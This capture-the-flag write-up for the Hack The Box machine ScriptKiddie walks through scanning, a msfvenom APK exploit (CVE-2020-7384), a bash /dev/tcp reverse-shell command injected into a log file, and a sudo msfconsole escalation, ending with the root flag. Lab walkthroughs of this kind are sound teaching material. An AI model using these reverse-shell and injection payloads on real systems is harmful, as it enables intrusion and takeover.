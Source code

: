 # CTF - [HTB ScriptKiddie](http://10.10.10.226:5000/)
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br/><br/>
Found a site with input fields that could be potential entry points.
<br/><br/>
![Screenshot at 2021-12-03 21-38-40](https://user-images.githubusercontent.com/59718043/144700412-347e85cf-7ea9-498c-807e-81c702acb9a0.png)
<br/><br/>
Another potential vulnerability: `Werkzeug/0.16.1 Python/3.8.5`.

<br/><br/>
Knowing that the site executes binaries from a Linux server, first I tried command injection on the input fields, but unfortunately that didn't work.<br/><br/>
![Screenshot at 2021-12-04 20-32-13](https://user-images.githubusercontent.com/59718043/144734995-99ddb895-5b05-4349-83a1-cea76b3c060d.png)

<br/><br/>
One of the executable programs on this web app is msfvenom. According to searchsploit, msfvenom is vulnerable to [CVE 2020-7384](https://www.exploit-db.com/exploits/49491).
```
└──╼ $searchsploit msfvenom                                                        │                             
------------------------------------------------- ---------------------------------│                   
 Exploit Title                                   |  Path                           │
------------------------------------------------- ---------------------------------│
Metasploit Framework 6.0.11 - msfvenom APK templ | multiple/local/49491.py         │
------------------------------------------------- ---------------------------------│
Shellcodes: No Results
```
<br/><br/>
Used this Metasploit module and ran it, which then returns an APK file that I used to upload to the site's msfvenom payload generator while my netcat is running. This gave me a shell.
<br/><br/>
```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.226] 35390
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
<br/><br/>
The user.txt flag can be found under the usual user home directory (/home/kid/).
 
There is another user `pwn`, the plan was to find a way to this account. I used a [secjuice]() writeup for this part as I hit a roadblock. 
 ```
 $ nc -nvlp 4445
 ```
Looking at the `scanlosers.sh` file in /home/pwn, the script is vulnerable to command injection. This payload contains a reverse shell that we can push to the log file `hackers` in kid's home directory under `/home/kid/logs`. 
 ```
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4445 0>&1' # ." > hackers
 ```
 ```
 $ nc -nvlp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.10.226 42332
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
 ```
Running `sudo -l`, it presented an obvious path to privilege escalation using Metasploit.
```
pwn@scriptkiddie:~/recon$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Ran `sudo /opt/metasploit-framework-6.0.9/msfconsole` and went into the root directory for the root flag.
```
msf6 > cat /root/root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /root/root.txt

3dff2015ccc0f80fc0be44b5605b068d
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
msf6 > 
```
